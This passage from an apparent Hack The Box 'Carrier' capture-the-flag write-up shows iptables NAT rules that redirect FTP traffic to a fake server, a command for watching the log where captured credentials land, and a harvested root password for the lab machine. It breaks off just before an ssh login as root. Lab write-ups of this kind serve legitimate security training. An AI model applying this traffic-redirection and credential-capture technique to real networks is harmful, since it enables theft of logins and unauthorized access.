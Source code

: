 ![](/images/hackthebox/carrier/32.png)
<br> iptables commands :
`iptables -t nat -A PREROUTING -p tcp --dport 21 -j DNAT --to-destination 10.10.xx.xx:21`
<br>
<br>
`iptables -t nat -A POSTROUTING -j MASQUERADE`
<br> Then we will wait for someone to access the fake ftp server 
<br> `watch cat log.txt` this will do `cat log.txt` and refresh it every 2 seconds (log.txt is where the captured credentials are stored) :
![](/images/hackthebox/carrier/33.png)
<br> Finally we get these credentials :
`root:BGPtelc0rout1ng`
<br> Now we can ssh to the actual box as root :
